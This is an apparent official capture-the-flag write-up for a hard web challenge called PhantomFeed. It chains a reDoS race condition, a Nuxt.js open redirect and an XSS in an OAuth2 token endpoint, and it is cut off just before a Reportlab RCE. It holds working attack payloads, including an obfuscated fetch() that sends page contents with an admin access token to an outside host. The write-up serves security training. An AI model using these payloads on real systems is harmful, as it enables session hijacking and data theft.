








        <font size="10">PhantomFeed</font>

16<sup>th</sup> November 2023 / D23.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- The challenge involves an underground hacker forum and marketplace, the exploitation consists of leveraging a race condition in the user email verification process triggered by reDOS, then an open-redirect in Nuxt.js is used to perform CSRF in order to leak an OAUTH2 access token, the last part of the challenge requires exploitation of a known vulnurability in the python library Reportlab.

## Description

* Some black-hat affiliated students talk of an underground hacking forum they frequent, the university hacking club has decided it is worth the effort of trying to hack into this illicit platform, in order to gain access to a sizeable array of digital weaponry that could prove critical to securing the campus before the undead arrive.

## Skills Required

- Understanding of Python and Flask
- Basic understanding of timing attacks
- Basic understanding of Nuxt.js
- Understanding of the OAUTH2 spec
- Experience in searching for known vulnurabilities

## Skills Learned

- Exploitation of reDOS to cause race conditions
- Exploitation of front-end frameworks
- Attacking the OAUTH2 spec
- Python code eval exploitation

## Application Overview




```conf
events {
    worker_connections  1024;
}

http {
    server {
        listen 1337;
        server_name pantomfeed;
        
        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /phantomfeed {
            proxy_pass http://127.0.0.1:3000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }

        location /backend {
            proxy_pass http://127.0.0.1:4000;
        }
    }
}
```

In the `nginx.conf` we can see three different web apps are proxied from the backend.

```conf
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:nginx]
command=/usr/sbin/nginx -g "daemon off;"
autostart=true
autorestart=true
stderr_logfile=/var/log/nginx/error.log
stdout_logfile=/var/log/nginx/access.log

[program:phantomfeed]
command=python /app/phantom-feed/run.py
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:phantommarketbackend]
command=python /app/phantom-market-backend/run.py
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:phantommarketfrontend]
command=npm start --prefix /app/phantom-market-frontend
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

In `supervisord.conf` we see at which port they listen.

These apps are stored three different directories in the `challenge` folder.

This is the main app of the challenge and it is accessible from `/phantomfeed`.



We need to log-in in order to access any content. There is also a register endpoint as we can see at `./challenge/phantom-feed/blueprints/routes.py`.



We can try registering an account but the email must be verified in order to log-in.

```py
@web.route("/register", methods=["GET", "POST"])
def register():
  if request.method == "GET":
    return render_template("register.html", title="register")

  if request.method == "POST":
    username = request.form.get("username")
    password = request.form.get("password")
    email = request.form.get("email")

  if not username or not password or not email:
    return render_template("error.html", title="error", error="missing parameters"), 400

  db_session = Database()
  user_valid, user_id = db_session.create_user(username, password, email)
  
  if not user_valid:
    return render_template("error.html", title="error", error="user exists"), 401

  email_client = EmailClient(email)
  verification_code = db_session.add_verification(user_id)
  email_client.send_email(f"http://phantomfeed.htb/phantomfeed/confirm?verification_code={verification_code}")

  return render_template("error.html", title="error", error="verification code sent"), 200
  ```

We can observe in the `/phantomfeed/register` endpoint a new user is created by calling `db_session.create_user`, an `EmailClient` instance is spawned and then a verification code is generated and added to the new user by calling `db_session.add_verification` and then the code is sent to the provided email. The order these functions are called in is important.

```py
@web.route("/login", methods=["GET", "POST"])
def login():
  if request.method == "GET":
    return render_template("login.html", title="log-in")

  if request.method == "POST":
    username = request.form.get("username")
    password = request.form.get("password")

  if not username or not password:
    return render_template("error.html", title="error", error="missing parameters"), 400

  db_session = Database()
  user_valid, user_id = db_session.check_user(username, password)

  if not user_valid:
    return render_template("error.html", title="error", error="invalid username/password or not verified"), 401

  token = create_jwt(user_id, username)

  response = make_response(redirect("/phantomfeed/feed"))
  response.set_cookie("token", token, samesite="Strict", httponly=True)
  return response
```

At `/phantomfeed/login` the `db_session.check_user` function is called to check the provided user credentials.

```py
def check_user(self, username, password):
    user = self.session.query(Users).filter(Users.username == username, Users.verified == True).first()

    if not user:
        return False, None
    
    password_bytes = password.encode("utf-8")
    password_encoded = user.password.encode("utf-8")
    matched = bcrypt.checkpw(password_bytes, password_encoded)
    
    if matched:
        return True, user.id
    
    return False, None
```

But also to check if the email is verified, if the conditions are met a JWT is generated and assigned.

```py
@web.route("/confirm", methods=["GET"])
def confirm():
  verification_code = request.args.get("verification_code")
  if not verification_code:
    return render_template("error.html", title="error", error="missing parameters"), 400

  db_session = Database()
  code_verified = db_session.check_verification(verification_code)

  if not code_verified:
    return render_template("error.html", title="error", error="invalid verification code"), 400

  return redirect("/phantomfeed/login")
```

The intended functionality is that the email contains a link directing to the `confirm` endpoint alonside the code, so it get's verified.

```py
# Work in progress

class EmailClient:
    def __init__(self, to_email):
        email_verified = self.parse_email(to_email)
        if email_verified:
            self.to_email = to_email
        else:
            self.to_email = "error message"
        self.smtp_server = "smtp.phantomfeed.htb"
        self.smtp_port = 587
        self.username = "lean@phantomfeed.htb"
        self.password = "HAQaM;Bk6V~^7]_!'-NwRT"


    def parse_email(self, email):
        pattern = r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@(([0-9a-zA-Z])+([-\w]*[0-9a-zA-Z])*\.)+[a-zA-Z]{2,9})$"

        try:
            match = re.match(pattern, email)

            if match:
                return True
            else:
                return False

        except Exception:
            return False


    def send_email(self, message):
        pass
        # try:
        #     self.server = smtplib.SMTP(self.smtp_server, self.smtp_port)
        #     self.server.starttls()  # Use TLS for security
        #     self.server.login(self.username, self.password)

        #     msg = MIMEMultipart()
        #     msg["From"] = self.username
        #     msg["To"] = to_email
        #     msg["Subject"] = "Verification code"

        #     msg.attach(MIMEText(message, "plain"))
        #     self.server.sendmail(self.username, to_email, msg.as_string())
        #     self.server.quit()
        # except Exception as e:
        #     print(e)
```

At `./challenge/util/email.py` we can see the `EmailClient`, on instanciation the provided email is parsed and some SMTP variables are set, however the `send_email` function is completelly commented out thus useless. So how could we bypass the code verification system in order to have a valid account?

```py
class Users(Base):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True)
    verification_code = Column(String)
    verified = Column(Boolean, default=True)
    username = Column(String)
    password = Column(String)
    email = Column(String)
```

At `./challenge/util/database.py` when the Users table is defined, we can observe that for the column `verified` the `default` value is set to `True`.

```py
def add_verification(self, user_id):
    verification_code = generate(12)
    self.session.query(Users).filter(Users.id == user_id).update({"verification_code": verification_code, "verified": False})
    self.session.commit()
    return verification_code
```

And that its set to `False` when the verification is added, which in our case happens right after the user is created at register.

## Race condition via reDOS

```py
db_session = Database()
user_valid, user_id = db_session.create_user(username, password, email)

if not user_valid:
return render_template("error.html", title="error", error="user exists"), 401

email_client = EmailClient(email)
verification_code = db_session.add_verification(user_id)
email_client.send_email(f"http://phantomfeed.htb/phantomfeed/confirm?verification_code={verification_code}")
```

As i mentioned above the order these functions are called is important, after `db_session` is set, a new user is created with `create_user` (with the default `verified`=`True`), then `EmailClient` is instanciated at `email_client` using the `user provided email`, this means that the constructor code is run that contains the `parse_email` function.

```py
def parse_email(self, email):
    pattern = r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@(([0-9a-zA-Z])+([-\w]*[0-9a-zA-Z])*\.)+[a-zA-Z]{2,9})$"

    try:
        match = re.match(pattern, email)

        if match:
            return True
        else:
            return False

    except Exception:
        return False
```

This function simply checks if an email is valid or no, but the way this regex is written makes the difference, by doing some research the fact that this regex is vulnerable to reDOS is revealed [https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS).

After this the `add_verification` is called to set `verified`=`False`.

We can leverage a reDOS payload in the email to cause a long enough delay that will allow us to login using a script before `verified` is set back to `False`.

```
a@aaaaaaaaaaaaaaaaaaaaaaaaaa!
```

## NextJS open-redirect

After logging in we are greeted by the hacker feed. We can create posts with user controlled content and optional "market link".


There is also a link on the navbar that points to the "market", which is accesible at `/`.



When clicking on "Log-in" we are redirected to an OAUTH2 login page of phantomfeed.



Authorization is asked from the phantommarket to access content from phantomfeed so we know that phantomfeed acts as an OAUTH2 provider.

```py
@web.route("/oauth2/code", methods=["GET"])
@auth_middleware
def oauth2():
  client_id = request.args.get("client_id")
  redirect_url = request.args.get("redirect_url")

  if not client_id or not redirect_url:
    return render_template("error.html", title="error", error="missing parameters"), 400
    
  authorization_code = generate_authorization_code(request.user_data["username"], client_id, redirect_url)
  url = f"{redirect_url}?authorization_code={authorization_code}"

  return redirect(url, code=303)
```

A request is made at `/oauth2/code` to generate an auth code.

```py
@web.route("/oauth2/token", methods=["GET"])
@auth_middleware
def token():
  authorization_code = request.args.get("authorization_code")
  client_id = request.args.get("client_id")
  redirect_url = request.args.get("redirect_url")

  if not authorization_code or not client_id or not redirect_url:
    return render_template("error.html", title="error", error="missing parameters"), 400

  if not verify_authorization_code(authorization_code, client_id, redirect_url):
    return render_template("error.html", title="error", error="access denied"), 401

  access_token = create_jwt(request.user_data["user_id"], request.user_data["username"])
  
  return json.dumps({ 
    "access_token": access_token,
    "token_type": "JWT",
    "expires_in": current_app.config["JWT_LIFE_SPAN"],
    "redirect_url": redirect_url
  })
```

Then another request must be made to `/oauth2/token` using the auth code in order to generate the access token that can be used to fetch from phantom-market-backend.


After a successful oauth2 handshake we are logged in and can order products.

```json
{
  "name": "phantom-market",
  "author": "lean",
  "version": "1.0.0",
  "private": true,
  "scripts": {
    "dev": "nuxt",
    "build": "nuxt build",
    "start": "nuxt start",
    "generate": "nuxt generate"
  },
  "dependencies": {
    "@nuxtjs/auth-next": "5.0.0-1667386184.dfbbb54",
    "@nuxtjs/axios": "^5.13.6",
    "bootstrap": "^5.3.2",
    "bootstrap-vue": "^2.23.1",
    "core-js": "3.25.3",
    "nuxt": "2.15.7",
    "popper.js": "^1.16.1",
    "vue": "^2.7.10",
    "vue-router": "3.5.2",
    "vue-server-renderer": "2.7.10",
    "vue-template-compiler": "2.7.10"
  }
}
```

As we can see from `package.json` nuxt.js version `2.15.7` is used. After some research a know open-redirect vulnurability for Nuxt.js can be found [https://github.com/nuxt/nuxt/issues/10319](https://github.com/nuxt/nuxt/issues/10319).

Now going back to `/phantomfeed`, let's have a look at the code responsible for handling the posts.

```py
@web.route("/feed", methods=["GET", "POST"])
@auth_middleware
def feed():
  if request.method == "GET":
    db_session = Database()
    posts = db_session.get_all_posts()

    return render_template("feed.html", title="feed", nav_enabled=True, user_data=request.user_data, posts=posts)

  if request.method == "POST":
    content = request.form.get("content")
    market_link = request.form.get("market_link")

  if not content or not market_link:
    return render_template("error.html", title="error", error="missing parameters"), 400

  if market_link == "":
    return render_template("error.html", title="error", error="invalid market link"), 401
  
  db_session = Database()
  db_session.create_post(request.user_data["user_id"], request.user_data["username"], content, market_link)

  bot_runner(market_link)

  return redirect("/phantomfeed/feed")
```

If a POST request with the appropriate data is made a new post is created using `db_session.create_post`, and right after the `bot_runner` function is called with the provided market_link as a parameter.

```py
def bot_runner(link):
    chrome_options = Options()

    chrome_options.add_argument("headless")
    chrome_options.add_argument("no-sandbox")
    chrome_options.add_argument("ignore-certificate-errors")
    chrome_options.add_argument("disable-dev-shm-usage")
    chrome_options.add_argument("disable-infobars")
    chrome_options.add_argument("disable-background-networking")
    chrome_options.add_argument("disable-default-apps")
    chrome_options.add_argument("disable-extensions")
    chrome_options.add_argument("disable-gpu")
    chrome_options.add_argument("disable-sync")
    chrome_options.add_argument("disable-translate")
    chrome_options.add_argument("hide-scrollbars")
    chrome_options.add_argument("metrics-recording-only")
    chrome_options.add_argument("no-first-run")
    chrome_options.add_argument("safebrowsing-disable-auto-update")
    chrome_options.add_argument("media-cache-size=1")
    chrome_options.add_argument("disk-cache-size=1")

    client = webdriver.Chrome(options=chrome_options)
    client.get("http://127.0.0.1:5000")

    token = create_jwt(1, "administrator")
    cookie = {
        "name": "token",
        "value": token,
        "domain": "127.0.0.1",
        "path": "/",
        "expiry": int((datetime.datetime.now() + datetime.timedelta(seconds=1800)).timestamp()),
        "secure": False,
        "httpOnly": True
    }
    client.add_cookie(cookie)

    client.get("http://127.0.0.1:5000" + link)
    time.sleep(10)
    client.quit()
```

The bot first sets an `administrator` jwt and then visits the provided link at the host of the market, this is our injection point for the open-redirect.

## CSRF to leak OAUTH2 access token

We first need to recieve an auth code by sending a request to `/oauth2/code`.

```py
@web.route("/oauth2/token", methods=["GET"])
@auth_middleware
def token():
  authorization_code = request.args.get("authorization_code")
  client_id = request.args.get("client_id")
  redirect_url = request.args.get("redirect_url")

  if not authorization_code or not client_id or not redirect_url:
    return render_template("error.html", title="error", error="missing parameters"), 400

  if not verify_authorization_code(authorization_code, client_id, redirect_url):
    return render_template("error.html", title="error", error="access denied"), 401

  access_token = create_jwt(request.user_data["user_id"], request.user_data["username"])
  
  return json.dumps({ 
    "access_token": access_token,
    "token_type": "JWT",
    "expires_in": current_app.config["JWT_LIFE_SPAN"],
    "redirect_url": redirect_url
  })
```

We can observe that the response content is return via `json.dumps`, this will cause the `content-type` of the response to be `text/plain` thus making it an injection point for XSS.

```
http://127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=<script>alert(0)</script>
```

We can leverage alongside the open-redirect to cause the admin-bot to validate our own auth code and then leak it's access token and sign in to the market as an administrator.

Let's construct the exploit step by step.

First we need to point the bot to the open-redirect, this can be done using three slashes as described in the github issue.

```
///
```

Then we need to make the admin-bot to visit the `/phantomfeed/oauth2/token` with our own auth code as a parameter.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>
```

Then we need to add the `client_id` and `redirect_url` parameters.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=<script>alert(0)</script>
```

Now we must create the javascript payload that would leak the access token from the current html.

```js
fetch(`http://yourserver.com?c=${btoa(document.documentElement.outerHTML)}`,{mode:'cors'})
```

Then we encode it using base64.

```
ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p
```

And then we use the `eval` and `atob` functions to run the encoded javascript at the injection point.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=<script>eval(atob('ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p'))</script>
```

Finally we url-encode the whole payload.

```
///127.0.0.1:1337/phantomfeed/oauth2/token?authorization_code=<your_auth_code>&client_id=phantom-market&redirect_url=%3Cscript%3Eeval%28atob%28%27ZmV0Y2goYGh0dHBzOi8vNTJlMi0yYTAyLTg1Zi1lNGM3LTNlYTItYjE3Yi1jYjYyLTExNTYtYTE3OC5uZ3Jvay5pbz9jPSR7YnRvYShkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQub3V0ZXJIVE1MKX1gLHttb2RlOidjb3JzJ30p%27%29%29%3C%2Fscript%3E
```

Making a post with "market link" set to our payload will make the bot with admin rights visit the open-redirect which will redirect it to the XSS vulnerable OAUTH2 endpoint which will cause the validation of our own arbitrary OAUTH2 auth code and create an access token that we can leak using CSRF.

## Reportlab RCE

Logging in as administrator unlocks a new "orders" page.



All orders are being displayed alongisde a button for exporting them as PDF.



```js
async exportPDF() {
  const token = this.getCookie("access_token");
  this.$axios.setHeader("Authorization", `Bearer ${token}`);

  const formData = new FormData();
  formData.append("color", "red");

  const response = await this.$axios.$post(this.$globalValues.resourceServer + "/orders/html", formData, {
      responseType: "blob",
  });
  const blob = new Blob([response]);

  const url = window.URL.createObjectURL(blob);
  const a = document.createElement("a");
  a.style.display = "none";
  a.href = url;
  a.download = "orders.pdf";

  document.body.appendChild(a);
  a.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(a);
},
```

By having a look at the front-end code that handles this interaction we can see that a request is sent to market-backend with a `color` parameter.

```py
@web.route("/orders/html", methods = ["POST"])
@admin_middleware
def orders_html():
  color = request.form.get("color")

  if not color:
    return response("No color"), 400

  db_session = Database()
  orders = db_session.get_all_orders()
  
  if not orders:
    return response("No orders placed"), 200

  orders_template = render_template("orders.html", color=color)
  
  html2pdf = HTML2PDF()
  pdf = html2pdf.convert(orders_template, orders)
  
  pdf.seek(0)
  return send_file(pdf, as_attachment=True, download_name="orders.pdf", mimetype="application/pdf")
```

The color param is used to render an html template and then `html2pdf.convert` is used to convert the html to pdf.



`HTML2PDF` is imported from `./challenge/phantom-market-backend/application/util/document.py`.

```py
from reportlab.platypus import SimpleDocTemplate, Paragraph, Table, TableStyle
from reportlab.lib.pagesizes import letter
from reportlab.lib import colors
from io import BytesIO

class HTML2PDF():
  def __init__(self):
    self.stream_file = BytesIO()
    self.content = []


  def add_paragraph(self, text):
    self.content.append(Paragraph(text))


  def add_table(self, data):
    table_data = []
    table_data.append([k for k in data[0].keys()])
    for item in data:
        table_data.append([item[key] for key in item.keys()])

    table = Table(table_data)

    table.setStyle(TableStyle([
        ("BACKGROUND", (0, 0), (-1, 0), colors.grey),
        ("TEXTCOLOR", (0, 0), (-1, 0), colors.whitesmoke),
        ("ALIGN", (0, 0), (-1, -1), "CENTER"),
        ("FONTNAME", (0, 0), (-1, 0), "Helvetica-Bold"),
        ("BOTTOMPADDING", (0, 0), (-1, 0), 12),
        ("BACKGROUND", (0, 1), (-1, -1), colors.beige),
        ("GRID", (0, 0), (-1, -1), 1, colors.black)
    ]))
    self.content.append(table)


  def get_document_template(self, stream_file):
    return SimpleDocTemplate(stream_file)


  def build_document(self, document, content, **props):
    document.build(content, **props)


  def convert(self, html, data):
    doc = self.get_document_template(self.stream_file)
    self.add_paragraph(html)
    self.add_table(data)
    self.build_document(doc, self.content)
    return self.stream_file
```

We can see that the library reportlab is used to convert the html to a pdf file.

```
cryptography==41.0.4
Flask==3.0.0
PyJWT==2.8.0
python-dotenv==1.0.0
bcrypt==4.0.1 
reportlab==3.6.12
SQLAlchemy==2.0.21
```

By looking at the `requirements.txt` file we can verify that the used version of reportlab has a known exploit [https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897](https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897).

```py
